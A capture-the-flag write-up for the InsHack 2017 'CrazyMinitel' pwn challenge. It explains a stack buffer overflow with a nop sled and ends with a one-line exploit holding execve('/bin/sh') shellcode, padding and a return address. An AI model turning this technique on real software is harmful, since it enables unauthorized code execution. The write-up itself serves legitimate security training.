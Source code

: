 ```yaml
---
title: "CrazyMinitel | InsHack 2017"
tags: ["pwn", "stack_overflow", "shellcode"]
points: 125
solves: 77
---
```


Today we will solve a simple pwnable challenge by inserting shellcode on the stack with a nop sled, and then jumping to it.

## Checksec
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled       (<- we CAN use shellcode)
PIE:      No PIE
ASLR:     DISABLED          (<- we CAN realiably know where the stack is)
```

## Solution
The program just echos the input. If the input is large enough the buffer is overflowed, so, since we can use shellcode lets just return to our buffer in the stack and run `execve("/bin/sh", NULL, NULL)`.

We can reliably return to our buffer because we can first get its location in gdb and we know it won't change since ASLR is disabled. The address can change slightly since environment variables are stored on the stack and if for example you change directory, $PWD will have a different value and shift the stack around.

To bypass this we can use a `nop sled`. A nop sled is just a bunch of `nop`s (the assembly instruction for no operation, aka does nothing), making it possible to jump anywhere in the nop sled range and execute our shellcode regardless of jumping perfectly to the start of our shellcode or anywhere in the middle of the `nop`s.

The solution is simply:
 - Send `nop..nop..nop...shellcode` for a total length of 230
 - Send `A`'s to pad until we get to the point on the stack where we are about to overwrite the saved `eip`
 - Overwrite the saved `eip` with a value pointing to somewhere in the middle of the nops (find this in gdb). In this case it was `0xbffffaa0`. We write it as `\xa0\xfa\xff\xbf` because the bytes are stored in little endian

```
./vuln $(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'.rjust(230,'\x90') + 'A'*(268-230) + '\xa0\xfa\xff\xbf'")
```